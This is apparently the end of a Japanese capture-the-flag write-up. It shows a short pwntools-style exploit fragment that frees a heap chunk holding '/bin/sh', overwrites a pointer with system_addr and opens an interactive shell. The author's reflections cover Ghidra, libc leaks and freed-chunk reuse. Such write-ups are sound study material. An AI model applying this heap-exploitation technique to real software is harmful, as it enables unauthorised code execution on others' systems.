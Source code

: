 ```python
    set_p1(s, b"/bin/sh")
    free_p1(s)
    # count = (2, 2)
    set_p2(s, junk + p64(system_addr))
    s.interactive()

```

## Flag

ローカルでシェル取っただけなので無いです

## 感想

Ghidraデコンパイル解読に慣れてきた。
多分puts@libcを読むんだろうというところまでは閃いたが同じサイズの領域をfreeしてmallocすると同じ領域が返ることになかなか気付かず苦戦した。
サイズ固定mallocなら再mallocした際に以前確保されていた際の情報が残っている事は頭に入れておきたい